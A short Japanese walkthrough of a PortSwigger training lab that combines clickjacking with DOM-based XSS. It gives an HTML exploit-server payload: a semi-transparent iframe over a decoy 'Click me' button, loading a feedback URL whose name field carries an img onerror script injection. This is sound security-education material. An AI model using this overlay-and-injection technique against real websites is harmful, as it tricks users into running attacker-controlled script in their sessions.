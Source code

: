 # クリックジャッキングの脆弱性を悪用して DOM ベースの XSS をトリガーする

次のハッキングラボを実施  
https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss  
このラボには、クリックによって引き起こされる XSS 脆弱性が含まれています。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. エクスプロイトサーバに移動します
- 4. ボディに以下の内容を入力します

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 600px;
    opacity: 0.5;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 510px;
    left: 80px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://0a260063044bc36480dcf5c500de003b.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

- 5. 自分の環境でクリックジャッキング出来るように上記の Click me の位置調整を行います
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/60263814-3890-45fe-9f6b-16bd4cde2199)

- 6. Save ボタン押下後に Deliver expoilt to victim ボタンを押下します
